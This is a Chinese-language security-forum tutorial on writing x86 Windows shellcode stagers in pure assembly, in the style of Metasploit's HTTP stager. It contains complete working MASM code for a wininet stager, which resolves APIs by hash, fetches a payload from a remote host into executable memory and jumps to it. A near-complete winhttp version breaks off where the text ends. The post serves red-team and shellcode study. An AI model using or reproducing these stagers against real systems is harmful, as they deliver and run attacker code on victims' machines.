# Windows Shellcode开发（x86 stager）-先知社区

> **来源**: https://xz.aliyun.com/news/17827  
> **文章ID**: 17827

---

# 一、前言

在前面的章节中，我已经介绍了如何运用C++和纯汇编开发弹窗shellcode，并用C++开发了远程下载文件的shellcode。本节是上一节的延续，需要的做的事情主要有

1. 完成x86纯汇编远程下载文件的shellcode（wininet）版
2. 完成x86纯汇编远程下载文件的shellcode（winhttp）版
3. 完成x86纯汇编TCP socket传输shellcode（wsock32版）

本节围绕上述的三件待办事项展开和拓展，详细介绍技术细节和可能遇到的一些问题及解决方案。所以x64在哪里？我的计划是再单独出一篇文章水一下，所以不出意外下一篇文章是关于x64 shellcode的编写（maybe？）。

使用过MSF或CS的朋友肯定或多或少听说过stager这个玩意，这个stager在大部分的C2中是使用汇编语言编写然后制作成一个模板，可以根据设置（port，ip，是否支持SSL）生成适用目标系统的shellcode，所以我将仿照Stephen Fewer的代码，编写出简单的stager并进行简单的测试，具体的扩展就留给想继续专研shellcode的朋友了。

还有一点本人代码水平真的很低，如果哪里写的不好或者有问题，还请大佬们不吝赐教。

用纯汇编开发shellcode需要的必备知识就是对汇编指令足够熟悉，能明白每条指令执行后寄存器和内存的状况，为此需要用到调式工具。在windows上，你可以利用windbg和x32/64dbg进行调式，因本人习惯，我需要在Visual Studio上进行代码的编写和调式masm的汇编代码。

在这里补充一下上一篇我的一个疑问：


我在详细分析了Stephen Fewer的给出的源码后了解到，其实 `stager_reverse_http.asm` 这个汇编文件才是主入口点，通过 `call start` 将下一条指令的地址作为返回地址压栈，然后通过 `%include "./src/block/block_api.asm"` 将block\_api.asm的代码给包含进来，所以下一条指令应该是 `block_api.asm`  的第一条指令 ，将再通过 `pop ebp` 将这条指令的地址弹出栈并保存到ebp中。这就很好的回答了我的疑问了。

```
  call start             
%include "./src/block/block_api.asm"
start:                 
  pop ebp              
```



# 二、x86纯汇编远程下载文件的shellcode（wininet）版

我们继续借鉴Stephen Fewer的代码，完成x86纯汇编远程下载文件的shellcode。

1. **block\_api.asm**：代码通过动态解析哈希值来定位所需的API函数地址： [metasploit-framework/external/source/shellcode/windows/x86/src/block/block\_api.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_api.asm)
2. **block\_reverse\_http.asm**：该汇编代码实现了一个通过HTTP下载并执行远程代码的Shellcode加载器：[metasploit-framework/external/source/shellcode/windows/x86/src/block/block\_reverse\_http.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_http.asm)

代码我进行了部分修改，如果觉得我的代码写的不够好，还请看Stephen Fewer的源码。

在本文中我会详细介绍怎么调式，怎么看内存和寄存器的情况，如果觉得我太啰嗦可以不看直接拿源代码运行自己分析即可。

因为 `GetProcAddressByHash` 已经在我的另一篇文章<https://xz.aliyun.com/news/17644>详细介绍过了，这个函数的主要作用就是找到目标函数地址并调用它，执行完后清理留存在栈上的值。这里提一嘴windows的API遵从stdcall，这意味着windows API会清理在main中压入的需要用到参数，以达到栈平衡。

## 2.1 必要的解释

**（1）压入字符串wininet和目标hash值**

```
; 1.压入字符串wininet和目标hash值
push 0074656eh       ; "net'\0'"
push 696e6977h       ; "wini"
push esp             ; 将栈顶地址作为字符串指针（此时栈内容为"wininet"）
push 0DEC21CCDh      ; 预设的（kernel32.dll+LoadLibraryA）哈希值
call GetProcAddressByHash ; 调用哈希解析函数获取LoadLibraryA地址并加载wininet
```

我们在 `push 0074656eh` 下一个断点，然后运行，再逐语句（F11），可以看到栈上存在了 `6e 65 74 00`，即 `net'\0'`



继续F11，看到我们已经将字符串“wininet”写到栈上，并以'00'作为结束的标志。我们都知道栈指针（esp）是从高地址向低地址移动的，对于x86而言是esp-4，而程序读取字符串是从低地址开始读取的，所以压栈的顺序是先压入 `net'\0'` 再压入 `wini`。



学过编程的人都应该清楚，一个函数需要将字符串作为参数，那么在参数传递的过程中，我们传入的其实是字符串的地址。所以才需要 `push esp` 将 `wininet` 的首地址压入栈中作为 `LoadLibraryA` 的参数。

一般情况而言，函数的返回值存储在eax中，`LoadLibraryA` 函数的返回值即 `wininet` 在内存中的地址。见下图，我们看到了'MZ'标志，这算是PE文件的标志，而我们的DLL属于PE文件。



**（2）InternetOpenA**

```
; 2.InternetOpenA(lpszAgent, dwAccessType, lpszProxy, lpszProxyBypass, dwFlags)
internetopenA:
    push ebx                    ; DWORD dwFlags（0）
    push ebx                    ; LPCTSTR lpszProxyBypass (NULL)
    push ebx                    ; LPCTSTR lpszProxyName (NULL)
    push ebx                    ; DWORD dwAccessType (PRECONFIG = 0)
    push ebx                    ; LPCTSTR lpszAgent (NULL)
    push 0363799Dh              ; wininet.dll+InternetOpenA 哈希值
    call GetProcAddressByHash
```

使用 `InternetOpenA` 初始化Internet会话，`xor ebx,ebx` 的作用是用于将ebx清零，后续作为0或NULL值（NULL值在C语言中定义为0）。在这里我们不需要设置用户代理、访问类型和选项等。

为什么要用ebx，而不用其他的寄存器呢？在这里补充一下 `GetProcAddressByHash` 函数它在最后结束的时候不是有清栈再回复调用者的寄存器状态，其中eax、ecx、edx的值会被覆盖掉，main函数中就不能一直使用这三个寄存器，否则会有数据丢失的风险。

⚠**注意**：在Stephen Fewer的代码代码中，他连续的压入32位0，即8组 `00 00 00 00` 作为后续API的0或NULL参数。为了简单实现，所有需要0或NULL统一使用 `push ebx`。当然后续如果需要优化代码，减小shellcode大小，你可以仿照他的写法。

**（3）InternetConnectA**

使用 `InternetConnectA` 连接到HTTP服务器

```
; 3.InternetConnectA(hInternet, lpszServerName, nServerPort, lpszUserName, lpszPassword, dwService, dwFlags, dwContext)
internetconnectA:
    push ebx                    ; DWORD_PTR dwContext (NULL) 
    push ebx                    ; dwFlags
    push 3                      ; DWORD dwService (INTERNET_SERVICE_HTTP)
    push ebx                    ; password (NULL)
    push ebx                    ; username (NULL)
    push 5555                   ; PORT
    call got_server_uri         ; 将server_uri保存到edi中，并将server_host压入栈中作为InternetConnectA的参数
server_uri:               
    db "/shellcode.bin", 0
got_server_host:
    push eax                    ; HINTERNET hInternet
    push 2289ACBAh              ; wininet.dll+InternetConnectA 哈希值
    call GetProcAddressByHash
……
……
got_server_uri:
    pop edi                     ; 将栈上的将server_uri保存到edi中
    call got_server_host        ; 将server_host压入栈中作为InternetConnectA的参数

server_host:
    db '192.168.1.1',0
```

详细代码解释：  
`call got_server_uri`：这个指令的作用是将下一条指令的地址压入栈中作为返回地址，并跳转到 `got_server_uri` 执行。而我们下一条指令（其实不是指令）为 `db "/shellcode.bin", 0`，这是一个字符串，定义在.text节中，我们是可以访问到的。

`/shellcode.bin` 字符串对于的ASCII码为 `2f 73 68 65 6c 6c 63 6f 64 65 2e 62 69 6e`



调式之后，我们能看见，确实是 `/shellcode.bin` 的地址。



跳转 `got_server_uri` 之后，执行 `pop edi` ，其实是将字符串 `/shellcode.bin` 的地址存储到edi中以备后续使用。



执行 `call got_server_host` ：其实是将字符串 `192.168.1.1` 压入到栈中作为InternetConnectA的参数，接着跳转到 `got_server_host` 执行后续的代码逻辑。





**（4）HttpOpenRequestA**

使用 `HttpOpenRequestA` 创建HTTP请求。没啥好说的，直接看代码比我哔哔有用多了

```
;4.HttpOpenRequestA(hConnect,lpszVerb,lpszObjectName,lpszVersion,lpszReferrer,*lplpszAcceptTypes,dwFlags,dwContext);
httpOpenRequestA:
    push ebx                    ; dwContext (NULL)
    push ebx                    ; dwFlags
    push ebx                    ; accept types
    push ebx                    ; referrer
    push ebx                    ; version
    push edi                    ; server URI
    push ebx                    ; method
    push eax                    ; hConnection
    push 9718794Eh              ; wininet.dll+HttpOpenRequestA 哈希值
    call GetProcAddressByHash
    xchg esi, eax               ; save hHttpRequest in esi
```

**（5）httpsendrequest**

使用 `HttpSendRequestA` 发送HTTP请求

```
; 5.HttpSendRequestA(hRequest, lpszHeaders, dwHeadersLength, lpOptional, dwOptionalLength);
httpsendrequest:
    push ebx                    ; lpOptional length (0)
    push ebx                    ; lpOptional (NULL)
    push ebx                    ; dwHeadersLength (0)
    push ebx                    ; lpszHeaders (NULL)
    push esi                    ; hHttpRequest
    push 0D7022990h             ; wininet.dll+HttpSendRequestA 哈希值
    call GetProcAddressByHash
    test eax,eax
    jz failure
```

我们用python开启一个本地的http服务器，端口是5555，uri为 `/shellcode.bin`，之后在 `jz failure` 下一个断点。

这一步主要是用于测试我们是否成功发送了http请求给服务器，如果成功，则在http服务器中留下一个记录证明我们访问成功。



为了测试访问失败的情况，我们可以将修改端口或修改uri或关闭http服务器的，比如说我们将端口改成6666。



**（6）VirtualAlloc**

使用 `VirtualAlloc` 创建一个本地缓存，用于存放下载的文件

```
; 6.VirtualAlloc( lpAddress, dwSize, flAllocationType, flProtect )
allocate_memory:
    push 40h                    ; PAGE_EXECUTE_READWRITE
    push 1000h                  ; MEM_COMMIT
    push 00400000h              ; Stage allocation (4Mb)
    push ebx                    ; lpAddress（NULL）
    push 0BCEF49D9h             ; kernel32.dll+VirtualAlloc 哈希值
    call GetProcAddressByHash 
```

我们在 `xchg eax, ebx` 下一个断点，然后查看eax中的值，VirtualAlloc的返回值（缓冲区的地址）存放在eax中。这个地址可以留意一下，后续需要查看我们的shellcode是否写入到这块缓冲区中



**（7）分段下载shellcode**

```
; 7.分段下载shellcode
download_prep:
    xchg eax, ebx               ; ebx = 分配的内存基地址
    push ebx                    ; 保存基地址到栈
    push ebx                    ; 临时占位符,用于存储已读字节数
    mov edi, esp                ; &bytesRead

download_more:
    push edi                    ; 参数4: lpNumberOfBytesRead (指向栈上的 bytesRead)
    push 8192                   ; 参数3: dwNumberOfBytesToRead (每次读取 8KB)
    push ebx                    ; 参数2: lpBuffer (当前写入位置)
    push esi                    ; 参数1: hRequest (HTTP 请求句柄)
    push 3E73B975h              ; hash("wininet.dll", "InternetReadFile")
    call GetProcAddressByHash
    test eax,eax
    jz failure

    mov eax, [edi]              ; 将已读字节数存储到eax中
    add ebx, eax                ; buffer += bytes_received
    test eax,eax           
    jnz download_more           ; 是否还要继续读取
    pop eax                     ; 清空临时占位符

    ; 8.跳转并执行shellcode
execute_stage:
    ret                         ; ret等效于pop+jmp,执行到此次时，esp指向缓冲区的地址
```

关键指令解析

1. 第一次 `push ebx`，将保存基地址到栈，后续执行到第八步 `8.跳转并执行shellcode`，通过ret将栈上的返回地址（缓冲区的地址）弹出到eip中，然后执行流就会转到缓存区的shellcode当中。



2. 第二次 `push ebx` 配合 `mov edi, esp` 将栈顶地址（即占位符的位置）存入 `edi`，此时 `edi` 指向存储已读字节数的变量地址（`&bytesRead`）。
3. 根据已读字节数，移动缓冲区指针到下一段空闲内存。

```
mov eax, [edi]              ; 将已读字节数存储到eax中
add ebx, eax                ; buffer += bytes_received
test eax,eax      
```

4. `pop eax`：清空临时占位符，确保执行到ret指令时，此时的esp指向存储着返回地址（缓冲区的地址）。

我们看一下是否成功将shellcode写入到缓冲区中





确实是我们上一节编写的弹窗shellcode

## 2.2 测试

其实这个远程下载文件并执行的汇编代码可以编译成exe文件，也可以提取成shellcode的形式。下图是直接使用exe的形式运行



我按照老办法，从编译后的exe文件的.text节中提取机器码作为我们的shellcode，然后用 `runshc32` 运行我们的\*.bin文件



## 2.3 完整代码

wininet.dll+InternetOpenA = 0363799Dh  
wininet.dll+InternetConnectA=2289ACBAh  
wininet.dll+HttpOpenRequestA=9718794Eh  
wininet.dll+HttpSendRequestA=D7022990h  
kernel32.dll+VirtualAlloc=BCEF49D9  
wininet.dll+InternetReadFile=3E73B975h  
wininet.dll+InternetCloseHandle=30588F36h  
kernel32.dll+VirtualFree=07AAD48Ch

```
'u',0,'s',0,'e',0,'r',0,'3',0,'2',0,'.',0,'d',0,'l',0,'l',0
'n',0,'t',0,'d',0,'l',0,'l',0,'.',0,'d',0,'l',0,'l',0
'k',0,'e',0,'r',0,'n',0,'e',0,'l',0,'3',0,'2',0,'.',0,'d',0,'l',0,'l',0
'w',0,'i',0,'n',0,'i',0,'n',0,'e',0,'t',0,'.',0,'d',0,'l',0,'l',0
'w',0,'i',0,'n',0,'h',0,'t',0,'t',0,'p',0,'.',0,'d',0,'l',0,'l',0
'w',0,'s',0,'2',0,'_',0,'3',0,'2',0,'.',0,'d',0,'l',0,'l',0
```

```
.386
.model flat, stdcall
option casemap:none

.code
; 主程序入口
main:

    ; 1.压入字符串wininet和目标hash值
    push 0074656eh              ; "net'\0'"
    push 696e6977h              ; "wini"
    push esp                    ; 将栈顶地址作为字符串指针（此时栈内容为"wininet"）
    push 0DEC21CCDh             ; kernel32.dll+LoadLibraryA 哈希值
    call GetProcAddressByHash   ; 调用哈希解析函数获取LoadLibraryA地址并加载wininet
    xor ebx,ebx                 ; 清零

    ; 2.InternetOpenA(lpszAgent, dwAccessType, lpszProxy, lpszProxyBypass, dwFlags)
internetopenA:
    push ebx                    ; DWORD dwFlags（0）
    push ebx                    ; LPCTSTR lpszProxyBypass (NULL)
    push ebx                    ; LPCTSTR lpszProxyName (NULL)
    push ebx                    ; DWORD dwAccessType (PRECONFIG = 0)
    push ebx                    ; LPCTSTR lpszAgent (NULL)
    push 0363799Dh              ; wininet.dll+InternetOpenA 哈希值
    call GetProcAddressByHash
    
    ; 3.InternetConnectA(hInternet, lpszServerName, nServerPort, lpszUserName, lpszPassword, dwService, dwFlags, dwContext)
internetconnectA:
    push ebx                    ; DWORD_PTR dwContext (NULL) 
    push ebx                    ; dwFlags
    push 3                      ; DWORD dwService (INTERNET_SERVICE_HTTP)
    push ebx                    ; password (NULL)
    push ebx                    ; username (NULL)
    push 5555                   ; PORT
    call got_server_uri         ; 将server_uri保存到edi中，并将server_host压入栈中作为InternetConnectA的参数
server_uri:               
    db '/shellcode1.bin', 0
got_server_host:
    push eax                    ; HINTERNET hInternet
    push 2289ACBAh              ; wininet.dll+InternetConnectA 哈希值
    call GetProcAddressByHash

    ; 4.HttpOpenRequestA(hConnect,lpszVerb,lpszObjectName,lpszVersion,lpszReferrer,*lplpszAcceptTypes,dwFlags,dwContext);
httpOpenRequestA:
    push ebx                    ; dwContext (NULL)
    push ebx                    ; dwFlags
    push ebx                    ; accept types
    push ebx                    ; referrer
    push ebx                    ; version
    push edi                    ; server URI
    push ebx                    ; method
    push eax                    ; hConnection
    push 9718794Eh              ; wininet.dll+HttpOpenRequestA 哈希值
    call GetProcAddressByHash
    xchg esi, eax               ; save hHttpRequest in esi

    ; 5.HttpSendRequestA(hRequest, lpszHeaders, dwHeadersLength, lpOptional, dwOptionalLength);
httpsendrequest:
    push ebx                    ; lpOptional length (0)
    push ebx                    ; lpOptional (NULL)
    push ebx                    ; dwHeadersLength (0)
    push ebx                    ; lpszHeaders (NULL)
    push esi                    ; hHttpRequest
    push 0D7022990h             ; wininet.dll+HttpSendRequestA 哈希值
    call GetProcAddressByHash
    test eax,eax
    jz failure

    ; 6.VirtualAlloc( lpAddress, dwSize, flAllocationType, flProtect )
allocate_memory:
    push 40h                    ; PAGE_EXECUTE_READWRITE
    push 1000h                  ; MEM_COMMIT
    push 00400000h              ; Stage allocation (4Mb)
    push ebx                    ; lpAddress（NULL）
    push 0BCEF49D9h             ; kernel32.dll+VirtualAlloc 哈希值
    call GetProcAddressByHash    
.
    ; 7.分段下载shellcode
download_prep:
    xchg eax, ebx               ; ebx = 分配的内存基地址
    push ebx                    ; 保存基地址到栈
    push ebx                    ; 临时占位符,用于存储已读字节数
    mov edi, esp                ; &bytesRead

download_more:
    push edi                    ; 参数4: lpNumberOfBytesRead (指向栈上的 bytesRead)
    push 8192                   ; 参数3: dwNumberOfBytesToRead (每次读取 8KB)
    push ebx                    ; 参数2: lpBuffer (当前写入位置)
    push esi                    ; 参数1: hRequest (HTTP 请求句柄)
    push 3E73B975h              ; hash("wininet.dll", "InternetReadFile")
    call GetProcAddressByHash
    test eax,eax
    jz failure

    mov eax, [edi]              ; 将已读字节数存储到eax中
    add ebx, eax                ; buffer += bytes_received
    test eax,eax           
    jnz download_more           ; 是否还要继续读取
    pop eax                     ; 清空临时占位符

    ; 8.跳转并执行shellcode
execute_stage:
    ret                         ; ret等效于pop+jmp,执行到此次时，esp指向缓冲区的地址

    ; 9.结束
failure:
    push 2E3E5B71h              ; kernel32.dll+ExitProcess 哈希值
    call GetProcAddressByHash 

got_server_uri:
    pop edi                     ; 将栈上的将server_uri保存到edi中
    call got_server_host        ; 将server_host压入栈中作为InternetConnectA的参数

server_host:
    db '192.168.1.1',0

GetProcAddressByHash:

    ; 1.保存寄存器和目标hash到当前栈帧上
    pushad                      ; 保存调用者所有寄存器的状态，一共压入8个寄存器，则esp-32
    mov ebp,esp                 ; 创建一个新栈帧
    mov eax,[esp+36]            ; 保存哈希值到栈中，为后续动态解析API函数地址做准备
    push eax                    ; 第一次压栈，存储hash值[ebp-4]
    

    ; 2.获取 `InMemoryOrderModuleList` 模块链表的第一个模块结点
    xor edx,edx                 ; 清零EDX寄存器
    assume fs:nothing           ; 忽略段寄存器的默认假设，不然不能读取fs寄存器
    mov edx, fs:[edx + 30h]
    mov edx,[edx+0ch]           ; PEB->Ldr
    mov edx,[edx+14h]           ; 第一个模块

    ; 3.模块遍历
next_mod:
    mov esi,[edx+28h]           ;获取模块的名称
    movzx ecx, word ptr [edx+24h]  ;获取名称长度,第一个注意点
    xor edi,edi                    ;存储模块的hash

    ; 4.计算模块hash
loop_modname:
    xor eax,eax                ; 清零EAX，准备处理字符
    lodsb                      ; 从ESI加载一个字节到AL（自动递增ESI）
    cmp al,'a'                 ; 检查是否为小写字母（ASCII 97）  
    jl not_lowercase           ; 检查是否为小写字母（ASCII 97）
    sub al,20h                 ; 将小写字母转为大写（ASCII减0x20）
not_lowercase:
    ror edi,0dh                ; 将EDI循环右移13位（哈希值混合高低位）
    add edi,eax                ; 将字符值累加到EDI（哈希值更新）
    dec ecx                    ; 字符计数器ECX减1
    jnz loop_modname           ; 若未处理完所有字符，继续循环
    push edx                   ; 将当前模块链表节点地址压栈，位于[ebp-8]
    push edi                   ; 将计算完成的哈希值压栈存储hash值，位于[ebp-12]   

    ; 5.获取导出表
    mov edx,[edx+10h]          ; 获取模块的基址
    mov eax,[edx+3ch]          ; 获取PE头RVA
    add eax,edx                ; 获取PE头地址
    mov eax,[eax+78h]          ; 获取获取导出表的RVA
    test eax,eax               ; 检查是否为空
    jz get_next_mod1           ; 获取下一个模块
    add eax,edx                ; 获取导出表地址
    push eax                   ; 存储导出表的地址，位于[ebp-16]
    mov ecx,[eax+18h]          ; 按名称导出的函数数量（NumberOfNames）
    mov ebx, [eax+20h]         ; 函数名称字符串地址数组的RVA（AddressOfNames RVA）
    add ebx, edx               ; 函数名称字符串地址数组的VA

    ; 6.获取函数名
get_next_func:    
    test ecx, ecx              ; 检查按名称导出的函数数量是否为0
    jz get_next_mod            ; 若为0，跳转到下一个模块
    dec ecx                    ; 函数计数器减1（倒序遍历）
    mov esi, [ebx+ecx*4]       ; 从末尾往前遍历，一个函数名RVA占4字节
    add esi,edx                ; 初始化函数哈希值（EDI=0）
    xor edi,edi                ; 用于存储函数hash值

    ; 7.计算模块 hash + 函数 hash之和，没啥好说的
loop_funcname: 
    xor eax, eax               ; 清空 EAX
    lodsb                      ; 加载字符到 AL，ESI++
    ror edi, 0dh               ; 哈希值循环右移13位
    add edi, eax               ; 累加字符 ASCII 值到哈希      
    cmp al, ah                 ; 检查是否到达字符串的终止符 \0（ASCII 0）
    jne loop_funcname          ; 未到结尾则继续循环
    add edi,[ebp-12]           ; 加上之前的模块hash
    cmp edi,[ebp-4]            ; 于目标hash进行比较
    jnz get_next_func

    ; 8.获取目标函数指针
get_funcAddress:
    pop eax                    ; 获取之前存放的当前模块的导出表地址
    mov ebx, [eax+24h]         ; 获取序号表（AddressOfNameOrdinals）的 RVA
    add ebx, edx               ; 序号表起始地址
    mov cx, [ebx+2*ecx]        ; 从序号表中获取目标函数的导出索引
    mov ebx, [eax+1ch]         ; 获取函数地址表（AddressOfFunctions）的 RVA
    add ebx, edx               ; AddressOfFunctions数组的首地址
    mov eax, [ebx+4*ecx]       ; 获取目标函数指针的RVA
    add eax, edx               ; 获取目标函数指针的地址
    
    ; 9.清栈并调用目标函数
finish:
    pop ebx                    ; 清除之前的模块+函数的hash值
    pop ebx                    ; 清除当前链表的位置
    pop ebx                    ; 清除目标hash值
    mov [esp+28],eax           ; 将 API 函数地址保存eax中
    popad                      ; 恢复所有通用寄存器
    pop ecx                    ; 弹出调用者压入的原始返回地址(由 CALL 指令保存的)
    pop edx                    ; 弹出调用者压入的哈希值
    push ecx                   ; 保存原始返回地址，与jmp eax模拟call指令
    jmp eax                    ; 跳转到目标 API 函数地址

get_next_mod:
    pop eax                    ; 弹出栈中保存的导出表地址
get_next_mod1: 
    pop edi                    ; 弹出之前压栈的计算出来的模块哈希值
    pop edx                    ; 弹出之前存储在当前模块在链表中的位置
    mov edx, [edx]             ; 获取链表的下一个模块节点（FLINK）
    jmp next_mod               ; 跳转回模块遍历循环
end main
```

后续如果有需要，你可以直接编写支持HTTPS的shellcode，在这里我就不演示了。

# 三、x86纯汇编远程下载文件的shellcode（winhttp）版

## 3.1 必要的解释

其实支持http的原生库不只wininet，还有winhttp，它从**Windows XP SP1** 和 **Windows Server 2003 SP1** 开始成为操作系统内置组件。

我将尝试使用winhttp的API来完成x86纯汇编远程下载文件的shellcode，大致的流程如下

1. 使用 `WinHttpOpen` 初始化会话句柄
2. 使用 `WinHttpConnect` 建立连接
3. 使用 `WinHttpOpenRequest` 创建请求句柄
4. 使用 `WinHttpSendRequest` 发送 HTTP 请求到服务器，在这一步htpp服务器会出现日志
5. 使用 `WinHttpReceiveResponse` 接收响应
6. 使用 `VirtualAlloc` 申请一个本地缓存
7. 使用 `WinHttpReadData` 将数据读到本地缓存中

⚠注意：ip和uri是宽字节表示的，即每个字符占两个字节，下文会解释

**（1）字符串问题**

```
……
; 3. 调用WinHttpConnect连接到服务器
    push ebx                    ; dwReserved=0
    push 5555                   ; nServerPort=5555（端口号）
    call got_server_uri         ; 调用标签，将server_uri地址存入EDI，并跳转处理server_host
server_uri:                     ; 定义服务器URI路径（小端存储）
    dw '/','s','h','e','l','l','c','o','d','e','.','b','i','n', 0
got_server_host:
    push eax                    ; hSession（WinHttpOpen返回的句柄）
    push 39AE9EB0h              ; WinHttpConnect的哈希值
    call GetProcAddressByHash   ; 调用WinHttpConnect，返回连接句柄在EAX中
……
……
; 辅助标签处理服务器URI和主机名
got_server_uri:
    pop edi                     ; 将server_uri标签的地址弹出到EDI（指向URI字符串）
    call got_server_host        ; 调用标签处理server_host

server_host:                ; 定义服务器主机名（小端存储）
    dw '1','9','2','.','1','6','8','.','1','.','1',0
```

在这一段代码中，我原先是用 `db '1','9','2','.','1','6','8','.','1','.','1',0` 来表示IP地址的，但是我调式的时候发现eax的值居然为0，这表明这段代码中出现了问题。具体见下图




调了半天然后又翻看API文档时发现 `pswzServerName` 参数的类型居然是 `LPCWSTR`，我以为是 `LPCSTR`，/(ㄒoㄒ)/。它是一个指向 **16 位 Unicode 宽字符常量字符串** 的长指针，所以应该使用 `dw '1','9','2','.','1','6','8','.','1','.','1',0` 表示IP地址。





有了这个经验，我就找哪些参数需要宽字符串来表示，排查下来我发现uri也需要用宽字符串来表示。



不是说其他参数不需要宽字符串来表示，而是我想尽可能简化，能使用NULL就使用NULL。

**（2）查看是否访问成功**

为了验证下面的这段代码是否正常达到目的，即发送HTTP请求，需要用日志来验证，在 `call GetProcAddressByHash` 下一个断点，然后F10，查看左边的情况或者查看eax的值是否为1

```
……
; 5. 调用WinHttpSendRequest发送HTTP请求
push ebx                    ; dwTotalLength=0（无附加数据）
push ebx                    ; dwOptionalLength=0
push ebx                    ; lpOptional=NULL
push ebx                    ; lpszHeaders=NULL
push ebx                    ; dwHeadersLength=0
push esi                    ; hRequest（请求句柄）
push 094B5BFFh              ; WinHttpSendRequest的哈希值
call GetProcAddressByHash   ; 发送请求，EAX返回操作结果
……
```



**（3）查看是否读到内存中**

为了验证我们是否将shellcode读取到内存缓冲区中，我们在 `jz failure` 处下一断点，ebx中的值是缓冲区的地址，我们可以根据这个地址查看缓冲区的情况。

```
……
download_more:
push edi                    ; 参数4: lpNumberOfBytesRead（接收已读字节数）
push 8192                   ; 参数3: dwNumberOfBytesToRead（每次读取8KB）
push ebx                    ; 参数2: lpBuffer（当前写入位置）
push esi                    ; 参数1: hRequest（请求句柄）
push 0F5B42CD6h             ; WinHttpReadData的哈希值
call GetProcAddressByHash   ; 读取数据到缓冲区
test eax,eax                ; 检查是否读取成功
jz failure                  ; 失败则跳转错误处理
……
```





其余的代码应该没什么要解释的地方了（maybe？），看看注释应该就能明白，细节方面从这里开始到下文都不会过多展示，详细还请看 `x86纯汇编远程下载文件的shellcode（wininet）版` 和我的另一篇文章 [Windows Shellcode开发-先知社区](https://xz.aliyun.com/news/17644)。如果有问题请私信。

## 3.2 测试

我们将先用exe来测试是否成功下载http服务器的shellcode并执行。



当然我们的目的是将汇编代码制作成shellcode，所以用010editor工具提取.text的机器码，用runshc32来运行\*.bin文件



## 3.3 完整代码

winhttp.dll+WinHttpOpen=332D226Eh  
winhttp.dll+WinHttpConnect=39AE9EB0h  
winhttp.dll+WinHttpOpenRequest=0D3431402h  
winhttp.dll+WinHttpSendRequest=094B5BFFh  
winhttp.dll+WinHttpReceiveResponse=0E82D8B6Fh  
winhttp.dll+WinHttpReadData=0F5B42CD6h

```
.386
.model flat, stdcall
option casemap:none

.code
; 主程序入口
main:

    ; 1. 压入字符串"winhttp"并获取LoadLibraryA地址加载winhttp.dll
    push 00707474h              ; 压入字符串的第三部分"ttp\0"（注意小端存储）
    push 686e6977h              ; 压入字符串的第二部分"winh"（组合后为"winhttp"）
    push esp                    ; 将当前栈顶地址作为字符串指针（此时栈内容为"winhttp\0"）
    push 0DEC21CCDh             ; kernel32.dll中LoadLibraryA的哈希值
    call GetProcAddressByHash   ; 调用哈希解析函数获取LoadLibraryA地址，加载winhttp.dll
    xor ebx,ebx                 ; 清零EBX寄存器，用于后续参数传递

    ; 2. 调用WinHttpOpen创建会话句柄
    push ebx                    ; dwFlags=0
    push ebx                    ; dwAccessType=0（默认代理）
    push ebx                    ; pwszProxyName=NULL
    push 1                      ; dwAccessType=WINHTTP_ACCESS_TYPE_DEFAULT_PROXY
    push ebx                    ; pwszUserAgent=NULL（使用默认）
    push 332D226Eh              ; WinHttpOpen的哈希值
    call GetProcAddressByHash   ; 调用WinHttpOpen，返回句柄在EAX中

    ; 3. 调用WinHttpConnect连接到服务器
    push ebx                    ; dwReserved=0
    push 5555                   ; nServerPort=5555（端口号）
    call got_server_uri         ; 调用标签，将server_uri地址存入EDI，并跳转处理server_host
server_uri:                     ; 定义服务器URI路径（小端存储）
    dw '/','s','h','e','l','l','c','o','d','e','.','b','i','n', 0
got_server_host:
    push eax                    ; hSession（WinHttpOpen返回的句柄）
    push 39AE9EB0h              ; WinHttpConnect的哈希值
    call GetProcAddressByHash   ; 调用WinHttpConnect，返回连接句柄在EAX中

    ; 4. 调用WinHttpOpenRequest创建HTTP请求句柄
    push ebx                    ; dwContext=0
    push ebx                    ; pwszVersion=NULL（默认HTTP/1.1）
    push ebx                    ; pwszReferrer=NULL
    push ebx                    ; pwszAcceptTypes=NULL
    push edi                    ; pwszObjectName=server_uri（步骤3中获取的路径）
    push ebx                    ; pwszVerb=NULL（默认GET方法）
    push eax                    ; hConnect（WinHttpConnect返回的句柄）
    push 0D3431402h             ; WinHttpOpenRequest的哈希值
    call GetProcAddressByHash   ; 调用WinHttpOpenRequest，返回请求句柄在EAX中
    xchg esi, eax               ; 将请求句柄保存到ESI寄存器

    ; 5. 调用WinHttpSendRequest发送HTTP请求
    push ebx                    ; dwTotalLength=0（无附加数据）
    push ebx                    ; dwOptionalLength=0
    push ebx                    ; lpOptional=NULL
    push ebx                    ; lpszHeaders=NULL
    push ebx                    ; dwHeadersLength=0
    push esi                    ; hRequest（请求句柄）
    push 094B5BFFh              ; WinHttpSendRequest的哈希值
    call GetProcAddressByHash   ; 发送请求，EAX返回操作结果

    ; 6. 调用WinHttpReceiveResponse等待服务器响应
    push ebx                    ; lpReserved=NULL
    push esi                    ; hRequest（请求句柄）
    push 0E82D8B6Fh             ; WinHttpReceiveResponse的哈希值
    call GetProcAddressByHash   ; 等待响应，EAX返回结果
    test eax,eax                ; 检测是否成功
    jz failure                  ; 失败则跳转到错误处理

    ; 7. 调用VirtualAlloc分配内存空间用于存储Shellcode
    push 40h                    ; flProtect=PAGE_EXECUTE_READWRITE（可执行可读写）
    push 1000h                  ; flAllocationType=MEM_COMMIT（提交物理内存）
    push 00400000h              ; dwSize=4MB
    push ebx                    ; lpAddress=NULL（由系统自动分配）
    push 0BCEF49D9h             ; VirtualAlloc的哈希值
    call GetProcAddressByHash   ; 分配内存，EAX返回基地址

    ; 8. 分段下载Shellcode到分配的内存中
download_prep:
    xchg eax, ebx               ; EBX=分配的内存基地址
    push ebx                    ; 保存基地址到栈（后续用于跳转）
    push ebx                    ; 临时占位符（用于存储已读字节数）
    mov edi, esp                ; EDI指向栈上的bytesRead变量地址

download_more:
    push edi                    ; 参数4: lpNumberOfBytesRead（接收已读字节数）
    push 8192                   ; 参数3: dwNumberOfBytesToRead（每次读取8KB）
    push ebx                    ; 参数2: lpBuffer（当前写入位置）
    push esi                    ; 参数1: hRequest（请求句柄）
    push 0F5B42CD6h             ; WinHttpReadData的哈希值
    call GetProcAddressByHash   ; 读取数据到缓冲区
    test eax,eax                ; 检查是否读取成功
    jz failure                  ; 失败则跳转错误处理

    mov eax, [edi]              ; 获取本次读取的字节数
    add ebx, eax                ; 移动缓冲区指针到下一个写入位置
